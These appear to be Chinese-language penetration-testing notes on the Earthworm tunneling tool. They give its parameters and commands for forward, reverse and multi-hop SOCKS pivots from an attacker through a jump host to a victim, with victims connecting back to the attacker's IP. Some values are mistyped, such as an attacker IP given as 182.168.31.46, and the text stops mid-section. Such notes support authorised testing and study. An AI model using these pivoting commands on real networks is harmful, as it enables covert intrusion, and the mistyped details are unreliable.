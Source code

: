 ## Earthworm(蜗牛)

---

#### 基本参数

- -s 选择功能
  - ssocksd 正向代理
  - rcsocks 反向代理 流量转发
  - rssocks 反向代理 反弹socks5
  - lcx_listen 反向代理 流量转发
  - lcx_tran 端口转发
  - lcx_slave 端口绑定
- -l 指定要监听的本地端口
- -d 指定要反弹到机器ip
- -e 指定要反弹到的机器端口
- -f 指定要主动连接机器ip
- -g 指定要主动连接的机器端口
- -t 指定超时时长，默认1000

---

#### 正向代理

- 攻击机 192.168.31.46

- 被攻击机 192.168.56.6 192.168.31.139

- 被攻击机执行
  ```sh
  ./ew -s ssocksd -l 7778
  ```

- 然后攻击机使用代理

---

#### 反向代理

- 攻击机 192.168.31.46

- 被攻击机 192.168.56.6 192.168.31.139

- 攻击机执行命令
  ```bash
  ./ew -s rcsocks -l 7778 -e 7779    //监听7778端口，转发到7779端口
  ```

- 被攻击机执行
  ```bash
  ./ew -s rssocks -d 192.168.31.46 -e 7779. //启动socks5 服务，并且反弹到攻击机 7779端口
  ```

- proxychains 配置文件修改

  socks5 127.0.0.1 7778

- 然后使用代理

---

#### 二级正向代理

- 攻击机 192.168.31.46

- 跳板机 192.168.56.6 192.168.31.139

- 被攻击机 192.168.56.7

- 被攻击机执行
  ```shell
  ./ew -s ssocksd -l 7778
  ```

- 跳板机执行
  ```shell
  ./ew -s lcx_tran -l 7779 -f 192.168.56.7 -g 7778
  ```

- 攻击机执行

  - 修改配置文件
    - socks5 192.168.56.6 7778

  ```shell
  proxychain4 执行
  ```

---

#### 二级反向代理

- 攻击机 192.168.31.46

- 跳板机 192.168.56.6 192.168.31.139

- 被攻击机 192.168.56.7

- 被攻击机执行
  ```shell
  ./ew -s ssocksd -l 7777
  ```

- 攻击机执行
  ```shell
  ./ew -s lcx_listen -l 7778 -e 7779
  ```

- 跳板机执行
  ```shell
  ./ew -s lcx_slave -d 182.168.31.46 -e 7779 -f 192.168.56.7 -g 7777
  ```

- 攻击机修改配置文件

  - socks5 127.0.0.1 7778

---

#### 三级正向代理

- 攻击机 192.168.31.46

- 跳板机 192.168.56.6 192.168.31.139

- 被攻击机 192.168.56.7

- 在被攻击机上执行
  ```shell
  ./ew -s ssocksd -l 7779
  ```

- 在跳板机执行

